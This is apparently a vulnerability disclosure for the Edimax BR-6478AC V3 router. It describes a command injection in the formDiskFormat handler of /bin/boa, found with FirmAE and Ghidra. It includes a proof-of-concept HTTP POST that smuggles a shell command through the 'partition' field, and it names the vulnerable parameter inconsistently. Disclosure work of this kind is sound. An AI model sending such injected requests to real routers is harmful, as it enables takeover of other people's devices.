




# EDIMAX RCE
**discription**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045c97c function and systype in /bin/boa
## Firmware
**brand**:edimax  
**product**:AC1200 Wave 2 Dual-Band Gigabit Router  
**version**:BR-6478AC V3  

The firmware can be download in this website[1] and using FirmAE to simulate the router environment.   
The result of simulating as follow: 

using ghidra we can konw the page is formDiskFormat



## analyze
Using ghidra we can konw that the post parameter "partition" will be sprintf as the second input parameter which will be executed

The detail of function as follow:

**addr**:0045ca18  
**function**: FUN_0045c97c   
**parameter**:systype


# poc
burp suite change the packet as follow
```
POST /boafrm/formDiskFormat HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 82

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/diskformat.htm

Cookie: webuicookie=16041636021804289383

Upgrade-Insecure-Requests: 1


Apply+Changes=Apply+Changes&submit_url=%2Fdiskinfo.htm&systype=ext2&partition=sda1/n echo 123 > /tmp/poc.txt
```
the result of poc as follow,you can find the /tmp/poc.txt was create after poc


[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3